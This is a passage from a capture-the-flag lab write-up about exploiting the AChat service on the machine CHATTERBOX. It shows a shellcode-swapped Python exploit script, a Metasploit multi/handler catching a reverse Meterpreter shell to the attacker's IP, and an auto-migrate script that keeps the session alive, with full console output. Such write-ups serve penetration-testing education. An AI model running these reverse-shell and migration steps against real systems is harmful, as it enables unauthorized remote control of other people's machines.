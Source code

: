 
Then replace the shellcode in the script with our own.

Now, start up `exploit/multi/handler` in `metasploit`, and run the script:

    
    
    root@kali# python achat-shell-8081.py
    ---->{P00F}!
    
    
    
    [*] Started reverse TCP handler on 10.10.14.157:4433
    [*] Sending stage (179779 bytes) to 10.10.10.74
    [*] Meterpreter session 1 opened (10.10.14.157:4433 -> 10.10.10.74:49159) at 2018-03-10 13:39:32 -0500
    
    meterpreter > w
    [*] 10.10.10.74 - Meterpreter session 1 closed.  Reason: Died
    

Unfortunately, this getting dropped consistently happens each time.

#### script + meterpreter + auto-migrate script

To get around the immediate session death, I employed a `AutoRunScript` to
migrate out of the achat process as soon as the connection is established.

First, create an `.rc` file:

    
    
    root@kali# cat automigrate.rc
    run post/windows/manage/migrate
    

Then set it to run on connection:

    
    
    msf exploit(multi/handler) > set AutoRunScript multi_console_command -r /root/automigrate.rc
    

Now, on running the script, we can get an interactive session:

    
    
    msf exploit(multi/handler) > set AutoRunScript multi_console_command -r /root/automigrate.rc
    [*] Started reverse TCP handler on 10.10.14.157:4433
    [*] Sending stage (179779 bytes) to 10.10.10.74
    [*] Meterpreter session 11 opened (10.10.14.157:4433 -> 10.10.10.74:49175) at 2018-03-10 14:10:41 -0500
    [*] Session ID 11 (10.10.14.157:4433 -> 10.10.10.74:49175) processing AutoRunScript 'multi_console_command -r /root/automigrate.rc'
    [*] Running Command List ...
    [*]     Running command run post/windows/manage/migrate
    [*] Running module against CHATTERBOX
    [*] Current server process: AChat.exe (1104)
    [*] Spawning notepad.exe process to migrate to
    [+] Migrating to 584
    [+] Successfully migrated to process 584
    
    meterpreter > getuid
    Server username: CHATTERBOX\Alfred
    meterpreter > pwd
    C:\Users\Alfred\Music
    